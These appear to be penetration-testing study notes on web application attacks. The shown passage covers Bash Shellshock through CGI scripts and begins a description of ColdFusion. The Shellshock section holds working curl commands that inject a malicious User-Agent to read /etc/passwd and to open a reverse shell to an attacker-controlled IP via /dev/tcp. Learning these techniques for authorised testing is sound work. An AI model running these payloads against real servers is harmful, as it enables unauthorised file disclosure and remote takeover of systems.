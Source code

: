 # Miscellaneous Applications

In this section, we will discuss the following technologies:
- Common Gateway Interface (CGI) Applications - Shellshock
- ColdFusion
- IIS Tilde
- LDAP
- Web Mass Assignment
- Other Notable Applications

##  Common Gateway Interface (CGI) Applications - Shellshock

A Common Gateway Interface (CGI) is used to help a web server render dynamic pages and create a customized response for the user making a request via a web application. CGI applications are primarily used to access other applications running on a web server. CGI is essentially middleware between web servers, external databases, and information sources. CGI scripts and programs are kept in the /CGI-bin directory on a web server and can be written in C, C++, Java, PERL, etc. CGI scripts run in the security context of the web server.

**Shellshock via CGI**

It is a security flaw in the Bash shell (GNU Bash up until version 4.3) that can be used to execute unintentional commands using environment variables.
````
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
````

**Enumeration**
````
$ gobuster dir -u http://<IP>/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
````
**Exploitation**
````
$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://<IP>/cgi-bin/access.cgi
$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<Our_IP>/<Our_Port> 0>&1' http://<IP>/cgi-bin/access.cgi
````

## ColdFusion

ColdFusion is a programming language and a web application development platform based on Java. It is used to build dynamic and interactive web applications that can be connected to various APIs and databases such as MySQL, Oracle, and Microsoft SQL Server. ColdFusion Markup Language (CFML) is the proprietary programming language used in ColdFusion to develop dynamic web applications. It has a syntax similar to HTML, making it easy to learn for web developers. CFML includes tags and functions for database integration, web services, email management, and other common web development tasks. Its tag-based approach simplifies application development by reducing the amount of code needed to accomplish complex tasks.

| Benefits                                | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|-----------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Developing data-driven web applications | ColdFusion allows developers to build rich, responsive web applications easily. It offers session management, form handling, debugging, and more features. ColdFusion allows you to leverage your existing knowledge of the language and combines it with advanced features to help you build robust web applications quickly.                                                                                                                                                                                                                                                                                       |
| Integrating with databases              | ColdFusion easily integrates with databases such as Oracle, SQL Server, and MySQL. ColdFusion provides advanced database connectivity and is designed to make it easy to retrieve, manipulate, and view data from a database and the web.                                                                                                                                                                                                                                                                                                                                                                                |
| Simplifying web content management      | One of the primary goals of ColdFusion is to streamline web content management. The platform offers dynamic HTML generation and simplifies form creation, URL rewriting, file uploading, and handling of large forms. Furthermore, ColdFusion also supports AJAX by automatically handling the serialisation and deserialisation of AJAX-enabled components.                                                                                                                                                                                                                                                           |